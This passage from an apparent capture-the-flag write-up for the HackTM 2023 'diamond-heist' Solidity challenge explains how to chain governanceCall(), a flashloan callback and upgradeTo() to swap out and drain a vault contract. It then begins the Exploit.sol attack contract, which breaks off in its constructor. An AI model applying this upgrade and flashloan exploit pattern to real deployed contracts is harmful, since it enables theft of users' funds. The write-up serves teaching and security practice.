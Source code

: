 To change the implementation of `Vault` to our own contract, the following two requirements have to be met:
1. `msg.sender` has to be either owner or `Vault` itself.
2. `Vault` must have no diamonds.

Since the owner of `Vault` is the `Setup` contract, the first criteria can only be achieved by calling `upgradeTo()` through the `Vault` itself. Luckily for us, `Vault` contains a `governanceCall()` function:
```solidity
function governanceCall(bytes calldata data) external {
    require(msg.sender == owner() || saltyPretzel.getCurrentVotes(msg.sender) >= AUTHORITY_THRESHOLD);
    (bool success,) = address(this).call(data);
    require(success);
}
```

As we now have the ability to gain infinite votes, we can make `Vault` call any of its functions through `governanceCall()`. To meet the first requirement, we simply use `governanceCall()` to call `upgradeTo()`, which would make `msg.sender` the `Vault` itself.

To fulfil the second criteria, we utilize the `flashloan()` function:
```solidity
function flashloan(address token, uint amount, address receiver) external {
    uint balanceBefore = IERC20(token).balanceOf(address(this));
    IERC20(token).transfer(receiver, amount);
    IERC3156FlashBorrower(receiver).onFlashLoan(msg.sender, token, amount, 0, "");
    uint balanceAfter = IERC20(token).balanceOf(address(this));
    require(balanceBefore == balanceAfter);
}
```
We take out a flashloan to borrow all of `Vault`'s diamonds, and then make the `governanceCall() -> upgradeTo()` call in the `onFlashLoan()` callback. This way, when `upgradeTo()` is called, `Vault` will temporarily have no diamonds.

## Exploit code
The exploit code is split contains three contracts:
* `Exploit` mainly handles abusing the vulnerability to gain sufficient votes.
* `VoteCollector` is used to solve the challenge after it has enough votes.
* `FakeVault` is the new vault implementation used to drain the vault.

[`Exploit.sol`](https://github.com/MiloTruck/smart-contract/blob/main/ctf/hacktm-2023/diamond-heist/Exploit.sol)
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "./diamond_heist_contracts/Setup.sol";
import "./diamond_heist_contracts/Vault.sol";
import "./diamond_heist_contracts/Diamond.sol";
import "./diamond_heist_contracts/SaltyPretzel.sol";

contract Exploit {
    // Challenge contracts
    Setup public setup;
    Vault public vault;
    SaltyPretzel public saltyPretzel;

    constructor(Setup _setup) {
        // Initialize challenge contracts
        setup = _setup;
        vault = setup.vault();
        saltyPretzel = setup.saltyPretzel();

        // Claim initial SaltyPretzel tokens
        setup.claim();
```